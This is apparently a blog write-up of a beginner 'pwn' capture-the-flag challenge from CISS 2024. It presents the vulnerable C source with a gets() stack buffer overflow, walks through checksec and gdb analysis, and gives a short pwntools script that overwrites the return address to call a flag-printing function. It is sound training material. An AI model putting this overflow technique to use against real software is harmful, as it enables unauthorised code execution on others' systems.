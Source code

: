 ```yaml
---
layout: post
title: "Baby buffer overflow - CISS 2024"
---
```


# Background

This is a pwn challenge from CISS2024, unfortunately this was eventually cancelled because they reused challenges and solutions were found half-way through the ctf :(

# Start

Very simple bof problem just by looking at the source code.

```c
#include <stdio.h>
#include <stdlib.h>

#define TRUE 1 

void gruss() {
    //Kein Teilnehmer wird einen Namen mit mehr als 64 Buchstaben haben
    char name_user[64] = {'\0'};
    printf("Wie heisst du?:\n");
    gets(name_user);
    printf("Hallo %s. Viel Spass bei DBH!\n", name_user);
}

void spass() {
    printf("So macht DBH doch viel mehr Spass.\n");
    char* args[3] = {"/bin/cat", "./flag.txt", NULL};
    execve(args[0], args, NULL);
}

int main(int argc, char* argv[]) {
    gruss();
}
```
> dont ask me why its in german

The usual `gets()` function where it excepts whatever the user throws at it until it receives a `\n` character. This allows us to input more than the allocated size of the buffer.

# More info

A quick `checksec` reviews that there are no protection mechanisms on the binary. 

![Pasted image 20240919222132](https://github.com/user-attachments/assets/e179b3ac-aee5-46fb-9ace-78341bdf8e07)
>maybe its a bit too easy

We also find out the binary is 64bit.

# Exploit

![Pasted image 20240919222524](https://github.com/user-attachments/assets/b26968c6-0140-486b-8f4d-d5ab924a20f2)

A quick gdb tour tells us the address of `name_user` buffer at `rbp - 0x40` is loaded into `rax` at `*gruss + 101` then its moved into `rsi` for `printf`. Lets set a break point at `*gruss + 105`

![Pasted image 20240919223120](https://github.com/user-attachments/assets/2bbd72b8-4e99-4c3c-84b0-5b1ec6482899)

After we hit the breakpoint we can take a look at the registers

![Pasted image 20240919223403](https://github.com/user-attachments/assets/369d8bb0-a69b-4a71-9b3f-36dfdeca3b25)

We obtain the address of `rbp` and from the disassembled code of the `gruss` function, we know that `rbp - 0x40` is where the input buffer starts. 

![Pasted image 20240919223739](https://github.com/user-attachments/assets/71453b2d-af64-470c-9cfb-d8d71490e111)

Taking a look at the stack values we indeed see the `A`'s we send. We also see the return address that we have to overflow at `rbp + 8`. Our job here is very easy because there is no canary for this binary.

![Pasted image 20240919224614](https://github.com/user-attachments/assets/e6a3dc70-447b-4754-8c53-e5474987804e)

We then disassemble the `spass` function which prints out the flag. Because there is no PIE the address of the function will always be `0x4011d2`.

# More exploit

Knowing the offset and what we have to overflow, we craft a simple exploit script.

```python
from pwn import *

context.binary = "/home/kali/greetings"
p = process('/home/kali/greetings')

# 64 buffer + 8 = 72
payload = b'A' * 72 + p64(0x4011d2)

p.sendline(payload)
p.interactive()
```
![Pasted image 20240919224227](https://github.com/user-attachments/assets/6af9b391-a7d2-48b6-ace2-fa512a7fd386)

Great!
